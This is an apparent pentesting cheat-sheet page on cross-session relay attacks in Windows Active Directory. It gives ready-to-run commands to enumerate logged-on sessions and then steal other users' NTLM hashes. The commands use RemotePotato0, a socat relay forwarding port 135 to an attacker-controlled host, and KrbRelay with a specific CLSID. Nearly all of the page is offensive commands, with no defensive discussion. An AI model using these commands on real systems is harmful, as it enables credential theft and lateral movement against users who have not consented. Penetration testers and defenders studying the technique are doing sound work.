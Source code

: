 ```yaml
---
title: "Cross Session Relay"
date: 2024-8-2
tags: ["cross session relay", "ntlm", "active driectory", "ad", "Windows", "krbrelay", "RemotePotato0"]
---
```


---
### Display information about the session host

{{< tab set1 tab1 active >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

<div>

```powershell
qwinsta *
``` 

```powershell
# Or runas
.\RunasCs.exe x x qwinsta -l 9
```

</div>

{{< /tabcontent >}}

<br>

---

### Abuse #1: Steal NTLM hash

{{< tab set2 tab1 active >}}RemotePotato0{{< /tab >}}
{{< tab set2 tab2 >}}KrbRelay{{< /tab >}}
{{< tabcontent set2 tab1 >}}

<div>

```bash
# In local Linux 
sudo socat -v TCP-LISTEN:135,fork,reuseaddr TCP:10.10.11.10:9999
```

```bash
# Trigger Attack
.\RemotePotato0.exe -m 2 -s <TARGET_SESSION_ID> -x 10.10.14.10 -p 9999
```

</div>

<small>*Ref: [RemotePotato0](https://github.com/antonioCoco/RemotePotato0)*</small>

{{< /tabcontent >}}
{{< tabcontent set2 tab2 >}}

<div>

```bash
.\KrbRelay.exe -session <TARGET_SESSION_ID> -clsid 0ea79562-d4f6-47ba-b7f2-1e9b06ba16a4 -ntlm
```

```bash
# Or runas
.\RunasCs.exe x x -l 9 "C:\ProgramData\KrbRelay.exe -session <TARGET_SESSION_ID> -clsid 0ea79562-d4f6-47ba-b7f2-1e9b06ba16a4 -ntlm"
```

</div>

<small>*Ref: [KrbRelay](https://github.com/cube0x0/KrbRelay)*</small>

{{< /tabcontent >}}

<br>